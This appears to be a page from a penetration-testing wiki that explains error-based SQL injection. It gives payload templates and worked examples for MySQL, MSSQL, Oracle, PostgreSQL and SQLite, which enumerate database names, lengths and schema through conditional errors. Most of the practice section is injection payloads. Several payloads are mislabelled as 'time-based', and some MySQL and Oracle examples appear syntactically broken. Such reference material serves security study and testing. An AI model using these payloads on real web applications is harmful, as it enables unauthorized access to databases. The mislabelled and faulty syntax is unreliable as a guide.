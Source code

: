 # Error Based

## Theory

Error-based SQLi is an in-band SQL Injection technique that relies on error messages thrown by the database server to obtain information about the structure of the database. In some cases, error-based SQL injection alone is enough for an attacker to enumerate an entire database. While errors are very useful during the development phase of a web application, they should be disabled on a live site, or logged to a file with restricted access instead.

## Practice

The process is relatively the same as [Boolean Based](boolean-based.md) injection. All you have to do is modify the payloads to trigger an error wait.

{% tabs %}
{% tab title="MySQL" %}
A time-based SQLi payload in MySQL will look like this

```bash
1' SELECT IF(YOUR-CONDITION-HERE,(SELECT table_name FROM information_schema.tables),'a')--
```

Examples:

```bash
#Boolean Based  
1' AND (SELECT LENGTH(database()))=1-- -

#Error Based  
1' SELECT IF((SELECT LENGTH(database()))=1,(SELECT table_name FROM information_schema.tables),'a')--
```
{% endtab %}

{% tab title="MSSQL" %}
A time-based SQLi payload in MSSQL will look like this

```bash
1'; SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN 1/0 ELSE NULL END--
```

Examples:

```bash
#Boolean Based  
1' AND (SELECT LEN(DB_NAME()))=1--

#Error Based  
1'; SELECT CASE WHEN ((SELECT LEN(DB_NAME()))=1) THEN 1/0 ELSE NULL END--
```
{% endtab %}

{% tab title="OracleSQL" %}
A time-based SQLi payload in OracleSQL will look like this

```bash
1' || SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN TO_CHAR(1/0) ELSE NULL END FROM dual ||--
```

Examples:

```bash
#Boolean Based  
1' AND (SELECT LENGTH(global_name) FROM global_name)=1--

#Error Based  
1' SELECT CASE WHEN ((SELECT LENGTH(global_name) FROM global_name)=1) THEN TO_CHAR(1/0) ELSE NULL END FROM dual--
```
{% endtab %}

{% tab title="PostgreSQL" %}
A time-based SQLi payload in PostgreSQL will look like this

```bash
1' AND 1 = CASE WHEN (YOUR-CONDITION-HERE) THEN 1/(SELECT 0) ELSE NULL END--
```

Examples:

```bash
#Boolean Based  
1' AND (SELECT LENGTH(current_database()))=1--

#Error Based    
1' AND 1 = CASE WHEN ((SELECT LENGTH(current_database()))=1) THEN 1/(SELECT 0) ELSE NULL END--
```
{% endtab %}

{% tab title="SQLite" %}
A time-based SQLi payload in SQLite will look like this

```bash
1' AND CASE WHEN (YOUR-CONDITION-HERE) THEN 1 ELSE load_extension(1) END--
```

Examples:

```bash
#Boolean Based  
1' AND (SELECT HEX(SUBSTR(sql,1,1)) FROM sqlite_master WHERE type!='meta' and sql NOT NULL AND name='TABLE_NAME_HERE')=HEX('C')--

#Error Based  
1' AND CASE WHEN ((SELECT HEX(SUBSTR(sql,1,1)) FROM sqlite_master WHERE type!='meta' and sql NOT NULL AND name='TABLE_NAME_HERE')=HEX('C')) THEN 1 ELSE load_extension(1) END--
```
{% endtab %}
{% endtabs %}
